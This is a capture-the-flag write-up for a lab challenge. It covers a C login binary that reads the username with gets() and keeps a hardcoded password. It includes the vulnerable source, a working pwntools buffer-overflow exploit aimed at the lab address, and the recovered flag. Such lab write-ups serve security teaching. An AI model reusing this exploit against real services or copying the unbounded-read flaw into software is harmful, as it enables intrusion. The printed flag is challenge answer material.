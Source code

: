 ```yaml
---
sticker: emoji//1f6a9
---
```


# CONTEXT
---


Cipher asked me to create the most secure vault for flags, so I created a vault that cannot be accessed. You don't believe me? Well, here is the code with the password hardcoded. Not that you can do much with it anymore.

**Note:** To start the target machine, click the Start Machine button:

You can use the following command to connect to the machine:

`nc 10.10.61.110 1337`

Download the source code from [here](https://drive.google.com/file/d/1kYIR2JEfLfbzifHgpGBj2xuBgGxNLp46/view?usp=sharing).

This challenge was originally a part of the Hackfinity Battle 2025 CTF Event.


Let's begin.


# EXPLOITATION
---

So, we know there's a binary running on port `1337`, let's use netcat to interact with it:

```
nc 10.10.61.110 1337
  ______ _          __      __         _ _
 |  ____| |         \ \    / /        | | |
 | |__  | | __ _  __ \ \  / /_ _ _   _| | |_
 |  __| | |/ _` |/ _` \ \/ / _` | | | | | __|
 | |    | | (_| | (_| |\  / (_| | |_| | | |_
 |_|    |_|\__,_|\__, | \/ \__,_|\__,_|_|\__|
                  __/ |
                 |___/

Version 1.0 - Passwordless authentication evolved!
==================================================================

Username: test
Wrong password! No flag for you.
```

As seen, it seems to be asking for a password, luckily for us, we got the source code of the file:

```c
#include <stdio.h>
#include <string.h>

void print_banner(){
	printf( "  ______ _          __      __         _ _   \n"
 		" |  ____| |         \\ \\    / /        | | |  \n"
		" | |__  | | __ _  __ \\ \\  / /_ _ _   _| | |_ \n"
		" |  __| | |/ _` |/ _` \\ \\/ / _` | | | | | __|\n"
		" | |    | | (_| | (_| |\\  / (_| | |_| | | |_ \n"
		" |_|    |_|\\__,_|\\__, | \\/ \\__,_|\\__,_|_|\\__|\n"
		"                  __/ |                      \n"
		"                 |___/                       \n"
		"                                             \n"
		"Version 1.0 - Passwordless authentication evolved!\n"
		"==================================================================\n\n"
	      );
}

void print_flag(){
	FILE *f = fopen("flag.txt","r");
	char flag[200];

	fgets(flag, 199, f);
	printf("%s", flag);
}

void login(){
	char password[100] = "";
	char username[100] = "";

	printf("Username: ");
	gets(username);

	// If I disable the password, nobody will get in.
	//printf("Password: ");
	//gets(password);

	if(!strcmp(username, "bytereaper") && !strcmp(password, "5up3rP4zz123Byte")){
		print_flag();
	}
	else{
		printf("Wrong password! No flag for you.");
	}
}

void main(){
	setvbuf(stdin, NULL, _IONBF, 0);
	setvbuf(stdout, NULL, _IONBF, 0);
	setvbuf(stderr, NULL, _IONBF, 0);

	// Start login process
	print_banner();
	login();

	return;
}
```

This binary is vulnerable to `Buffer Overflow`:

1. **Buffer Overflow in `username`**:
    - The `gets(username)` function reads input without bounds checking, allowing overflow into adjacent memory.
    - The `password` buffer (initialized as empty) is adjacent to `username` on the stack. Overflowing `username` can overwrite `password`.
        
2. **Stack Layout**:
    - `password[100]` is allocated first (lower memory address).
    - `username[100]` is allocated next (higher memory address).
    - Writing beyond 100 bytes in `username` overflows into `password`.
        
3. **Login Bypass**:
    - The login check requires:
        - `username == "bytereaper"`
        - `password == "5up3rP4zz123Byte"`.
    - By crafting a payload that sets `username` to `"bytereaper"` (with proper null termination) and overflows into `password` with the correct value, we can satisfy both conditions.


Knowing all that, we can use this python script:

```python
#!/usr/bin/env python3
from pwn import *
import re

def main():
    # Remote host and port (updated for this target)
    host = "10.10.61.110"
    port = 1337

    # Enable pwntools logging so we see:
    # [+] Opening connection to 10.10.61.110 on port 1337: Done
    # [+] Receiving all data: Done (XXB)
    # [*] Closed connection to 10.10.61.110 port 1337
    context.log_level = "info"

    # 1) Connect to the remote service
    conn = remote(host, port)

    # 2) Build the payload
    #    - "bytereaper\x00" makes strcmp(username, "bytereaper") succeed
    #    - 101 "A" bytes overflow into the password buffer
    #    - "5up3rP4zz123Byte" is the hardcoded password the program expects
    payload = (
        b"bytereaper\x00"       # username + null terminator
        + b"A" * 101            # overflow filler up to password check
        + b"5up3rP4zz123Byte"   # correct password string
    )

    # 3) Wait until the remote binary prompts "Username:"
    conn.recvuntil(b"Username:")

    # 4) Send the payload (pwntools will automatically append "\n")
    conn.sendline(payload)

    # 5) Read everything the server sends back (banner + flag or error)
    #    We give a small timeout to avoid hanging indefinitely
    response = conn.recvall(timeout=2).decode(errors="ignore")

    # 6) Close the connection
    conn.close()

    # 7) Extract the flag from the response.
    #    The flag is expected to match THM{…}, so we search with a regex.
    match = re.search(r"THM\{.*?\}", response)
    if match:
        # Print only the flag, prefixed so it's clear in the output
        print(f"Flag: {match.group(0)}")
    else:
        # If no flag was found, print the full response for debugging
        print("No flag found. Full response:\n")
        print(response)

if __name__ == "__main__":
    main()
```

Once we run the script, we get:

```python
python3 exploit.py
[+] Opening connection to 10.10.61.110 on port 1337: Done
[+] Receiving all data: Done (24B)
[*] Closed connection to 10.10.61.110 port 1337
Flag: THM{password_0v3rfl0w}
```

Got our flag:

```python
THM{password_0v3rfl0w}
```

![[Pasted image 20250605184529.png]]

